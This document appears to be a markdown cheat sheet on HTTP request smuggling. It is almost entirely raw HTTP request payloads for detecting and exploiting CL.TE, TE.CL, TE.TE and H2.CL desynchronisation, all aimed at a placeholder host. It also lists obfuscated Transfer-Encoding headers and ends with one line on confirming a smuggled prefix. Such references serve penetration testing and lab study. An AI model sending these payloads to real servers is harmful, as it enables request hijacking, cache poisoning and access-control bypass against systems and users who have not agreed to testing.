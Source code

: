 # Request Smuggling

## Finding CL.TE vulnerabilities using timing techniques
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 4
Transfer-Encoding: chunked

a
b
```

## Finding TE.CL vulnerabilities using timing techniques
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100
Transfer-Encoding: chunked

0

x
```

## CL.TE vulnerabilities
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

## TE.CL vulnerabilities
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-length: 4
Transfer-Encoding: chunked

2b
GPOST / HTTP/1.1
Content-Length: 15

x=1
0
\n\r
\n\r
```

## TE.TE behavior: obfuscating the TE header
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

## H2.CL vulnerabilities
```
POST / HTTP/2
Host: vulnerable-website.com
Content-Length: 0

SMUGGLED
```
Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.
